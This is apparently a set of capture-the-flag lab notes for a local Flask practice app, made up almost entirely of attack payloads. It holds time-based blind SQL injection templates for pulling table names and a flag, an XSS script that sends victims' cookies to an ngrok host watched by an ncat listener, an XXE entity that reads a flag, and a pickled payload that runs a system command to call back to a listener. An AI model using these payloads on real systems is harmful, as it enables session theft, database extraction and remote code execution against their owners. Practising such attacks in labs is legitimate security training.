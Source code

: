 Flask
SQL
----------
' or 1=1; -- 

SQL Timing Based
--------------
https://www.youtube.com/watch?v=DYLDG_2Vs3E
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "

XSS
---------
ncat -klnvp 9000
ngrok http 9000
<script>document.write('<img src="http://340b-2406-3003-2077-4ea9-85b2-4692-1458-96f8.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin

XSS2
---------
<iframe src="http://localhost/CTF/attacker/base.html"></iframe>


XML Blind injection
----------------------------
https://www.youtube.com/watch?v=ySJwlMsFbco
Refer to script


XXE injection
------------------------
https://www.youtube.com/watch?v=kiGoOuuXWFI

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <food>
    <name>Tonkatsu &example;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:5000/XXE/flag" >
]>
<food>
    <name>Tonkatsu &xxe;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>


Pickle Insecure Deserialization
---------------------------
Refer to script
ncat -klnvp 9000
curl -d "function=decode&input=\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x13ncat 127.0.0.1 9000\x94\x85\x94R\x94." http://127.0.0.1:5000/INSEC/





